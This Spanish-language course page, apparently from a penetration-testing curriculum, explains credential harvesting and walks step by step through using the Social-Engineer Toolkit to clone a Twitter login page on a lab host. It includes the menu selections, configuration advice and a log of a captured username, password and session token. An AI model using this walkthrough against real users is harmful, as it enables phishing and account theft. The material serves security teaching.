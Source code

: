 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Credential Harvesting

La recolección de credenciales es una técnica de recopilan credenciales de usuario (como ID de usuario, direcciones de correo electrónico, contraseñas y otra información de inicio de sesión).

### ¿Cómo funciona la recolección de credenciales?

Lo más habitual es que se instale un recolector de credenciales  como una extensión maliciosa de un sitio web o una aplicación. Una vez instalado, el recolector registra cualquier información que los usuarios ingresen durante el proceso de inicio de sesión.

Debido a que los recolectores de credenciales registran todos los inicios de sesión de manera indiscriminada, los ciberdelincuentes pueden crear una reserva de nombres de usuario y contraseñas.

Si un ciberdelincuente tiene acceso a una o más contraseñas comprometidas que un individuo usó en el pasado, esa credencial le proporciona un excelente punto de partida para adivinar su información de inicio de sesión para otros sitios o sistemas.

### Técnicas comunes utilizadas en ataques de recolección de credenciales <a href="#techniques" id="techniques"></a>

La recolección de credenciales normalmente se lleva a cabo junto con otra técnica de ciberataque. Métodos de ataque más frecuentes incluyen los siguientes:

* **Malware**
* **Phishing**
* **Suplantación de dominio**
* **Ataques Man-in-the-Middle (MitM)**

Una de las formas más comunes en que los atacantes realizan la recolección de credenciales es mediante el uso de correos electrónicos de phishing y de phishing con enlaces que podrían redirigir a un usuario a un sitio falso. Este "sitio falso" podría simular un servicio en la nube legítimo, como Gmail, Office 365 o incluso un sitio de redes sociales como Twitter, LinkedIn, Instagram o Facebook. Por eso es tan importante utilizar la autenticación multifactor. Sin embargo, en algunos casos, los atacantes podrían eludir la autenticación multifactor redirigiendo al usuario a un sitio malicioso y robando una cookie de sesión del navegador del usuario.

Muchos servicios y aplicaciones alojadas en la nube utilizan el inicio de sesión único (SSO) y otros utilizan autenticación federada. A veces, las aplicaciones basadas en la nube le permiten iniciar sesión con sus credenciales de Google, Apple o Facebook. Los atacantes podrían redirigir a los usuarios a sitios web suplantados que pueden parecer páginas de inicio de sesión legítimas de Google, Apple, Facebook o Twitter. Desde allí, el atacante podría robar el nombre de usuario y la contraseña de la víctima.&#x20;

_Ataque de recolección de credenciales mediante correos electrónicos de ingeniería social y phishing_

Agresor1. Correo electrónico con enlace a inicio de sesión falso en TwitterVíctima3. El atacante roba credencialesSitio falso de inicio de sesión en Twitter2. El usuario ingresa las credenciales

En el Módulo 4, aprendió sobre el Conjunto de herramientas de ingeniería social (SET). En los siguientes ejemplos, verá lo fácil que es realizar un ataque de ingeniería social y crear una instancia de un sitio web falso (en este caso, un sitio de inicio de sesión de Twitter falso) para realizar un ataque de recolección de credenciales.

**Paso 1** . Inicie SET ingresando el comando **setoolkit** .

**Paso 2** . Seleccione **1) Ataques de ingeniería social** en el menú principal, como se muestra en el Ejemplo 7-1.

_**Ejemplo 7-1**_  : Inicio del ataque de ingeniería social

<pre><code><strong>                Select from the menu:   1) Social-Engineering Attacks   2) Penetration Testing (Fast-Track)   3) Third Party Modules   4) Update the Social-Engineer Toolkit   5) Update SET configuration   6) Help, Credits, and About  99) Exit the Social-Engineer Toolkitset> 1
</strong></code></pre>

**Paso 3** . En el menú que aparece (ver Ejemplo 7-2), seleccione **2) Vectores de ataque a sitios web** .

_**Ejemplo 7-2**_  : Selección de vectores de ataque a sitios web

<pre><code><strong>                Select from the menu:    1) Spear-Phishing Attack Vectors    2) Website Attack Vectors    3) Infectious Media Generator    4) Create a Payload and Listener    5) Mass Mailer Attack    6) Arduino-Based Attack Vector    7) Wireless Access Point Attack Vector    8) QRCode Generator Attack Vector    9) Powershell Attack Vectors   10) Third Party Modules   99) Return back to the main menu.set>2 
</strong></code></pre>

<pre><code><strong>                The Web Attack module is a unique way of utilizing multiple web-basedattacks in order to compromise the intended victim.The Java Applet Attack method will spoof a Java Certificate anddeliver a metasploit based payload. Uses a customized java appletcreated by Thomas Werth to deliver the payload.The Metasploit Browser Exploit method will utilize select Metasploitbrowser exploits through an iframe and deliver a Metasploit payload.The Credential Harvester method will utilize web cloning of awebsite that has a username and password field and harvest allthe information posted to the website.The TabNabbing method will wait for a user to move to a differenttab, then refresh the page to something different.The Web-Jacking Attack method was introduced by white_sheep, emgent.This method utilizes iframe replacements to make the highlighted URLlink to appear legitimate however when clicked a window pops up thenis replaced with the malicious link. You can edit the link replacementsettings in the set_config if it's too slow/fast.The Multi-Attack method will add a combination of attacks throughthe web attack menu. For example, you can utilize the Java Applet,Metasploit Browser, Credential Harvester/Tabnabbing all at once to seewhich is successful.The HTA Attack method will allow you to clone a site and performpowershell injection through HTA files which can be used forWindows-based powershell exploitation through the browser.   1) Java Applet Attack Method   2) Metasploit Browser Exploit Method   3) Credential Harvester Attack Method   4) Tabnabbing Attack Method   5) Web Jacking Attack Method   6) Multi-Attack Web Method   7) HTA Attack Method  99) Return to Main Menuset:webattack>3
</strong></code></pre>

_**Ejemplo 7-3**_  : Selección del método de ataque de recolección de credenciales

**Etapa 4** . En el menú y la explicación que aparecen a continuación (consulte el Ejemplo 7-3), seleccione **3) Método de ataque de recolección de credenciales** .

<pre><code><strong>                The first method will allow SET to import a list of pre-defined webapplications that it can utilize within the attack.The second method will completely clone a website of your choosingand allow you to utilize the attack vectors within the completelysame web application you were attempting to clone.The third method allows you to import your own website, note that youshould only have an index.html when using the import websitefunctionality.   1) Web Templates   2) Site Cloner   3) Custom Import  99) Return to Webattack Menuset:webattack>1
</strong></code></pre>

_**Ejemplo 7-4**_  : Selección de una plantilla web predefinida

**Paso 5** . En el menú que aparece a continuación (ver Ejemplo 7-4), seleccione **1) Plantillas web** para utilizar una plantilla web predefinida (Twitter). Como puede ver, también tiene opciones para clonar un sitio web existente o importar un sitio web personalizado. En este ejemplo, utiliza una plantilla web predefinida.

\


**Paso 6** . En el menú que se muestra en el Ejemplo 7-5, ingrese la dirección IP del host que le gustaría usar para recopilar las credenciales del usuario (en este caso, **192.168.88.225** ). En este ejemplo, SET ha reconocido la dirección IP del sistema atacante. Si esto le ocurre a usted, puede simplemente presionar **Enter** para seleccionar la dirección IP del sistema atacante.

_**Ejemplo 7-5**_  : Ingreso de la dirección IP del recolector de credenciales

<pre><code><strong>                [-] Credential harvester will allow you to utilize the clonecapabilities within SET[-] to harvest credentials or parameters from a website as well asplace them into a report------------------------------------------------------------------------- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS *IMPORTANT * --The way that this works is by cloning a site and looking for formfields to rewrite. If the POST fields are not usual methods forposting forms this could fail. If it does, you can always save theHTML, rewrite the forms to be standard forms and use the "IMPORT"feature. Additionally, really important:If you are using an EXTERNAL IP ADDRESS, you need to place theEXTERNAL IP address below, not your NAT address. Additionally, ifyou don't know basic networking concepts, and you have a privateIP address, you will need to do port forwarding to your NAT IPaddress from your external IP address. A browser doesn't know howto communicate with a private IP address, so if you don't specifyan external IP address if you are using this from an externalperspective, it will not work. This isn't a SET issue this is hownetworking works.set:webattack> IP address for the POST back in Harvester/Tabnabbing[192.168.88.225]:
</strong></code></pre>

**Paso 7** . Seleccione **3. Twitter** , como se muestra en el ejemplo 7-6.

_**Ejemplo 7-6**_  : Selección de la plantilla para Twitter

<pre><code><strong>                --------------------------------------------------------                 **** Important Information ****For templates, when a POST is initiated to harvestcredentials, you will need a site for it to redirect.You can configure this option under:      /etc/setoolkit/set.configEdit this file, and change HARVESTER_REDIRECT andHARVESTER_URL to the sites you want to redirect toafter it is posted. If you do not set these, thenit will not redirect properly. This only goes fortemplates.--------------------------------------------------------  1. Java Required  2. Google  3. Twitterset:webattack> Select a template:3[*] Cloning the website: http://www.twitter.com[*] This could take a little bit...The best way to use this attack is if username and password formfields are available. Regardless, this captures all POSTs on awebsite.[*] The Social-Engineer Toolkit Credential Harvester Attack[*] Credential Harvester is running on port 80[*] Information will be displayed to you as it arrives below:
</strong>
              
</code></pre>

Luego, puede redirigir a los usuarios a este sitio falso de Twitter enviando un correo electrónico de phishing o aprovechando vulnerabilidades web como secuencias de comandos entre sitios (XSS) y falsificación de solicitudes entre sitios (CSRF). La Figura 7-2 muestra la página de inicio de sesión falsa de Twitter, donde el usuario ingresa sus credenciales.

_Página de inicio de sesión falsa_



El ejemplo 7-7 muestra cómo el sistema atacante recopila las credenciales del usuario. El nombre de usuario ingresado es _santosomar_ y la contraseña es _superbadpassword_ . También puede ver el token de sesión.

_**Ejemplo 7-7**_ _: Recopilación de credenciales de usuario_

```
192.168.78.238 - - [28/Jun/2021 23:07:41] "GET / HTTP/1.1" 200 -[*] WE GOT A HIT! Printing the output:POSSIBLE USERNAME FIELD FOUND: session[username_or_email]=santosomarPOSSIBLE PASSWORD FIELD FOUND: session[password]=superbadpasswordPARAM: authenticity_token=dba33c0b2bfdd8e6dcb14a7ab4bd121f38177d52PARAM: scribe_log=POSSIBLE USERNAME FIELD FOUND: redirect_after_login=PARAM: authenticity_token=dba33c0b2bfdd8e6dcb14a7ab4bd121f38177d52[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.192.168.78.238 - - [28/Jun/2021 23:08:27] "POST /sessions HTTP/1.1"302 - 
```

<mark style="color:red;">**Recursos**</mark>&#x20;

{% embed url="https://www.crowdstrike.com/cybersecurity-101/cyberattacks/credential-harvesting/" %}
